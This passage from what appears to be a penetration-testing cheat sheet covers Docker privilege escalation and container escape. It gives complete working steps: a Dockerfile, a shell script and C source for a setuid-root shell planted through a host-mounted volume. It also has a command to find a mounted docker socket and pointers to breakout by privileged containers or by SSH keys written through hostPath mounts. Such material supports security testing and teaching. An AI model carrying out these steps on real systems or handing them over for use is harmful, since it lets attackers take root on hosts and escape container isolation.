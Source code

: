 Fun method using mount and setuid:

Create the following files
- dockerfile
```
FROM alpine:3.5
COPY root.sh root.sh
COPY rootshell rootshell
```
- rootshell.c
```
int main()
{
   setuid( 0 );
   system( "/bin/sh" );
   return 0;
}
```
- root.sh
```
#!/bin/sh

cp rootshell /persist/rootshell
chmod 4777 /persist/rootshell
```

Exploitation:
- Compile rootshell.c
- Build the dockerfile - `docker build --rm -t privesc .`
- Run the dockerfile mounting a share - `docker run -v /tmp/persist:/persist privesc:latest /bin/sh root.sh`
- navigate to share on host - `cd /tmp/persist`
- execute the suid binary `./rootshell`

## 1.6. Privilege Escalation and Container Breakout
useful reading - https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf
### 1.6.1. Mounted docker socket
Though rare, if for some reason the application needs to connect to a docker socket it may be mounted to the container and can be used to escape:
```
find / -name docker.sock 2>/dev/null
# usually /run/docker.sock
```
If the socket is mounted you can communicate with the docker daemon using the docker binary or curl to execute docker commands - see [Docker Daemon Misconfigurations](#docker-daemon-misconfigurations)

You can attempt to create privileged containers to perform container breakouts such as mounting host filesystem...
### 1.6.2. Writeable HostPath mount
Hostpath mounts by definition mount a directory of the host to the container. You should check to see if there are any risky mount paths that could provide access to sensitive files (secrets, kubeconfigs, tokens etc...)if it's possible to write to the hostpath you may be able to find an exploit such as dropping an SSH key on the host.
